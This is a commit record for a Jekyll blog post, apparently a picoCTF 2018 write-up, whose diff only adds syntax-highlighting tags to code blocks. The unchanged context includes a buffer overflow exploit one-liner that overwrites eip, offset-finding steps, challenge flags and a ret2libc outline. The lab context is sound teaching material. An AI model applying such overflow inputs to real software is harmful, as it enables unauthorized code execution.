

Before and after one commit to drtychai/drtychai.github.io, a Jekyll site: the page built from _posts/picoCTF-2018/2018-10-13-picoCTF.md, in a window 1280 px wide and 1400 px high, scrolled down 3306 px. Shown: the whole window, without its empty margins (208-1061 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
added color

````diff
--- a/_posts/picoCTF-2018/2018-10-13-picoCTF.md
+++ b/_posts/picoCTF-2018/2018-10-13-picoCTF.md
@@ -10,7 +10,7 @@ This was my first time playing in picoCTF. I was pleasantly surprised with the q
 # Buffer Overflow 0
 In this challenge, we're given a vulnerable binary and it's corresponding source code.
 
-```
+```c
 #include <stdio.h>
 #include <stdlib.h>
 #include <string.h>
@@ -65,14 +65,14 @@ Using `pattern_create.rb` and `pattern_offset.rb` we find the offset of `eip` is
 
 This displays the crash and tells us that `eip` is trying to find the address of `a9Ab`. Using `` `locate pattern_offset.rb` -q a9Ab`` we know now that any input after 28 characters will overwrite `eip`. Thus, we can disasemble the function `sigsegv_handler` and overwrite `eip` with it's address.
 
-```
+```bash
 ./vuln $(python -c 'print "A"*28 + "\x2b\x86\x04\x08"')
 picoCTF{ov3rfl0ws_ar3nt_that_bad_b49d36d2}
 ```
 
 # Buffer Overflow 1
 Similar to the previous challenge, we are give a binary and it's source code.
-```
+```c
 #include <stdio.h>
 #include <stdlib.h>
 #include <string.h>
@@ -118,14 +118,14 @@ int main(int argc, char **argv){
 This binary performs the vulnerable `gets()` call for a 32 character buffer - again with no length constraints on our input. Using the same tactics as before, we fuzz the input with a unique string to determine the offset of `eip`. With `pattern_create.rb` we get an offset of 44.
 
 Appending the address of `win`, we get the flag.
-```
+```bash
 picoCTF{addr3ss3s_ar3_3asy14941911}
 ```
 
 ## Leak Me
 Given the binary and source for this challenge, we start by parsing the source code.
 
-```
+```c
 #include <stdio.h>
 #include <stdlib.h>
 #include <string.h>
@@ -215,13 +215,13 @@ picoCTF{addr3ss3s_ar3_3asy1b78b0d8}
 ## got-2-learn-libc
 After reading the source code we see that `vuln()` has a simple buffer overflow. Using `pattern_create.rb` and `pattern_offset.rb`, we find an offset of 160. We now have control of `eip` and it appears the challenge requires you to call `execve` or `system` with the provided `/bin/sh` string. To do this, we need to first figure out which libc we're working with. To do this we try calling one of the provided addresses. First we try `puts()` but no luck. Next we try `fflush` and voila!
 
-```
+```c
 0xf7d74010 in ?? () from /lib/i386-linux-gnu/libc.so.6
 ```
 
 Great - but this is our local libc. This reminds me! There is a much easier way to find which libc is being used.
 
-```
+```bash
 $ ldd vuln
     linux-gate.so.1 =>  (0xf76e8000)
     libc.so.6 => /lib32/libc.so.6 (0xf7522000)
````
